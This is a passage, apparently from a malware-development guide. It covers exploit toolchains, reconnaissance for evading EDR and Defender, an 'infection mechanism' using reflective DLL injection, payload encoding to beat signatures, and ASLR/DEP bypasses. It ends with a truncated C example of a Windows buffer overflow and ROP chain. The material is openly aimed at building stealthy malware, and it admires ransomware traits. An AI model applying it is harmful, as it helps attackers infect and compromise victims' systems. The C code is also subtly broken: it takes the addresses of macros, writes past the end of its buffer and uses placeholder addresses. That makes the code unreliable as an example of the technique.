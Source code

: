 - **Languages and Paradigms**:
  - **Low-Level**: C/C++ for shellcode and drivers (e.g., using inline assembly for ROP gadgets).
  - **Scripting**: Python 3.11+ (with libraries like pwntools for exploit dev, cryptography for AES), PowerShell 7 (obfuscated via AMSI bypass).
  - **Assembly**: NASM for x86 shellcode, supporting position-independent code (PIC) to evade ASLR.
  - Set up a build pipeline with CMake for modular compilation and Git for version control.

#### 3. Research and Planning

Thorough reconnaissance minimizes blind development and maximizes evasion.

- **Target Analysis**:
  - Map OS internals: Use WinDbg's `!process` for Windows process structures or `lkd> dt` for kernel objects. For Linux, dissect `/proc/kallsyms` for symbol resolution.
  - Vulnerability Hunting: Fuzz with AFL++ or libFuzzer to discover zero-days; validate with ROPgadget for gadget chains.
  - EDR Evasion: Study Sigma rules for behavioral detection (e.g., process hollowing triggers).

- **Malware Forensics**:
  - Dissect samples from MalwareBazaar or VirusTotal (e.g., Emotet for modular loaders).
  - SWOT Analysis: Strengths (e.g., Ryuk's fast encryption), Weaknesses (e.g., WannaCry's wormable flaw), Opportunities (IoT expansion), Threats (AI-based anomaly detection).

Document in a threat model using STRIDE (Spoofing, Tampering, etc.) to identify risks like behavioral heuristics in Windows Defender ATP.

#### 4. Develop the Infection Mechanism

The entry vector must be reliable and stealthy, often chaining multiple primitives.

- **Exploit Development Workflow**:
  - **Vulnerability Identification**: Use ROP Emporium challenges or real CVEs (e.g., buffer overflow in a custom DLL).
  - **Exploit Primitives**: Achieve arbitrary read/write via heap spraying or use-after-free.
  - **Shellcode Injection**: Reflective DLL injection to avoid disk drops; encode with XOR or RC4 to bypass static signatures.
  - **Mitigation Bypasses**: Leak ASLR bases via info disclosure, disable DEP with gadgets like `VirtualProtect`, enforce CFG with indirect call validation.

- **Advanced Example (Windows Buffer Overflow with ROP Chain in C)**:
  ```c
  #include <windows.h>
  #include <stdio.h>
  #include <string.h>

  // ROP gadgets (offsets from a known module like kernel32.dll)
  #define POP_RDI_RET 0x7FF8F1234567  // Example gadget: pop rdi; ret;
  #define VIRTUALALLOC 0x7FF8F123ABCD   // VirtualAlloc address
  #define SHELLCODE_ADDR 0x4141414141414141  // Placeholder for allocated shellcode

  void exploit() {
      char buffer[256];
      DWORD oldProtect;
      // Craft ROP chain: Leak ASLR, allocate RWX memory, write shellcode
      memset(buffer, 'A', 252);  // Padding to overflow
      memcpy(buffer + 252, &POP_RDI_RET, sizeof(DWORD_PTR));  // Pop arg for VirtualAlloc
      memcpy(buffer + 256, &SHELLCODE_ADDR, sizeof(DWORD_PTR));  // Size arg
      memcpy(buffer + 260, &VIRTUALALLOC, sizeof(DWORD_PTR));     // Call VirtualAlloc
      // Trigger overflow (simulate via vulnerable function call)
      // In real exploit: strcpy(vuln_buf, buffer);
      printf("ROP chain prepared: %s\n", buffer);
      // Restore protection if needed: VirtualProtect(exbuf, sizeof(exbuf), PAGE_EXECUTE_READWRITE, &oldProtect);
  }

  int main() {
      exploit();
  ```